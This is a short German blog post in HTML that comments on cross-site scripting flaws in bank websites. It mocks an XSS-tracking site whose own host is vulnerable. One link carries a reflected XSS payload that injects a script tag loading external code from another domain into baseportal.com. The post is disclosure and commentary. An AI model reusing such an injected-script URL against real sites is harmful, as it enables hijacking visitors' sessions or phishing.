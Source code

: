 <html><body><p>Ich schrieb ja schon mehrfach, dass XSS sehr böse ist, und verboten werden sollte.<br>
<br>
Das schreibt nun auch heise.de: <a href="http://www.heise.de/security/news/meldung/85477" target="_blank">Bank-Websites weiterhin anfällig für Cross Site Scripting</a>. In diesem Artikel geht es um eine XSS-Datenbank (warum nicht meine?) namens <a href="http://baseportal.com/baseportal/phishmarkt/at" target="_blank">Phishmarkt :: at</a>.<br>
<br>
Aber siehe da, der Hoster von dem tollen Phishmarkt ist selbst XSS-bar:<br>
<a href="http://baseportal.com/baseportal/phishmarkt/%3Cscript+src=%22http://files.die-welt.net/s.js%22%3E" target="_blank">baseportal.com</a>.<br>
<br>
<strong>HAHAHAHAHAHA!!!111elf</strong><br>
Ich bau mir jetzt auch so eine Datenbank.</p></body></html>